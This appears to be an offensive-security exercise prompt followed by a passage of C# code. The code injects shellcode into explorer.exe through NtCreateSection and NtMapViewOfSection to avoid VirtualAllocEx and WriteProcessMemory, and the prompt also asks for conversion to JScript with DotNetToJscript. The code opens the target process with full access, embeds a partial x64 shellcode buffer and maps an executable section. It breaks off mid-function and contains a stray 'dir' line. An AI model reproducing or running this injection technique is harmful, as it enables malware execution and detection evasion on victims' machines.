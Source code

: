 Create C# code that performs process injection using the four new APIs instead of _VirtualAllocEx_ and _WriteProcessMemory_. Convert the code to Jscript with DotNetToJscript. Note that _CreateRemoteThread_ must still be used to execute the shellcode.

Not my code:
```csharp
using System;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;



public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);


    [DllImport("ntdll.dll", SetLastError = true, ExactSpelling = true)]
    static extern UInt32 NtCreateSection(ref IntPtr SectionHandle, UInt32 DesiredAccess, IntPtr ObjectAttributes, ref UInt32 MaximumSize, UInt32 SectionPageProtection, UInt32 AllocationAttributes, IntPtr FileHandle);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, UIntPtr ZeroBits, UIntPtr CommitSize, out ulong SectionOffset, out uint ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

    [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
    static extern int NtClose(IntPtr hObject);


    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    dir
    
    public TestClass()
    {
        Process[] explorerProcesses = Process.GetProcessesByName("explorer");
        int firstExplorerPid = explorerProcesses[0].Id;

        byte[] buf = new byte[643]
        { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,
        0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
        ...
        0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,
        0xd5 };

        IntPtr sHandle = new IntPtr();
        IntPtr lHandle = Process.GetCurrentProcess().Handle;
        IntPtr pHandle = OpenProcess(0x001F0FFF, false, firstExplorerPid);


        int len = buf.Length;
        uint uLen = (uint)len;
        long cStatus = NtCreateSection(ref sHandle, 0x10000000, IntPtr.Zero, ref uLen, 0x40, 0x08000000, IntPtr.Zero);

        IntPtr baseAddrL = new IntPtr();
```